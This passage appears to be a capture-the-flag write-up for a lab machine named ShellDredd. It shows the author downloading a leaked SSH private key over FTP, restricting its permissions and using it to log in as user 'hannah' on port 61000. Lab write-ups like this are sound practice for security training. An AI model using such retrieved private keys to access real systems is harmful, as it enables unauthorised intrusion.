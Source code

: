Found an SSH ID for Hannah. Now to download

ftp> get id_rsa

local: id_rsa remote: id_rsa

229 Entering Extended Passive Mode (|||19319|)

150 Opening BINARY mode data connection for id_rsa (1823 bytes).

100% |********************************|  1823        1.25 MiB/s    00:00 ETA

226 Transfer complete.

1823 bytes received in 00:00 (867.15 KiB/s)

ftp> 

Now before using the rsa id file I'll need to update it's permissions so that it can be used with SSH. The SSH key requires a specific set of permissions where it needs read and write permissions on the User or Owner so I'll add 600 permission for the minimum priviledges required.

chmod 600 id_rsa

Now time to connect to Hannah

ssh -i id_rsa hannah@192.168.56.104 -p 61000

ssh

-i = id file

-p port

I'm in

??$ ssh -i id_rsa hannah@192.168.52.130 -p 61000

The authenticity of host '[192.168.52.130]:61000 ([192.168.52.130]:61000)' can't be established.

ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.

This key is not known by any other names

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '[192.168.52.130]:61000' (ED25519) to the list of known hosts.

Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/*/copyright.

  

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.

hannah@ShellDredd:~$ 

Now to look around

